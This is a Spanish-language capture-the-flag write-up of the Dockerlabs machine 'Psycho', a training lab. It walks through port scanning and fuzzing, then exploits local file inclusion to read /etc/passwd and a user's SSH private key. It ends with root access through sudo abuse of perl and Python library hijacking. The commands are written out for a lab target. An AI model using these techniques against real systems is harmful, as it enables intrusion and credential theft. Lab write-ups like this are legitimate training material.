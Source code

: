 # MACHINE PSYCHO

## Información General

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

  ![machine](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/machine.png)

## DESPLIEGUE
```python
bash auto_deploy.sh psycho.tar
```
![despliegue](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/despliegue.png)

## RECONOCIENTO
```python
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```ruby
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## EXPLOTACION
![weberro](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/PAGINA%20ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios con gobuster

```ruby
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```ruby
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/wfuzz.png)

Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/permisos_id_rsa.png)

```ruby
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```ruby
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/gtfobins.png)

```ruby
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/dockerlabs/images/root.png)


# ELIMINAR LA MAQUINA
```shell
Ctrl + C
```







